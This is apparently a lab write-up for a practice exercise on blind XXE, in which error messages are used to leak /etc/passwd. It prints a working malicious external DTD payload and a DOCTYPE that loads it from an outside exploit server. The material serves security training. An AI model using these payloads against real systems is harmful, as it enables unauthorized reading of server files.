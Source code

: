 Title: Exploiting blind XXE to retrieve data via error messages
Level: Practitioner
Desc:  This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD

First try with parametrized entity: 
![image](https://github.com/user-attachments/assets/f1782e0a-dfc9-4da7-8bd3-d718f1556976)
error: "XML parser exited with error: org.xml.sax.SAXParseException; systemId: file:///etc/passwd; lineNumber: 1; columnNumber: 1; The markup declarations contained or pointed to by the document type declaration must be well-formed."

Second try with external DTD:

![image](https://github.com/user-attachments/assets/abe795b6-7621-4208-9647-f3a5db639996)

payload: 
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

calling: 
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0afa009a04562499803120a6014a0044.exploit-server.net/exploit"> %xxe; ]>
```
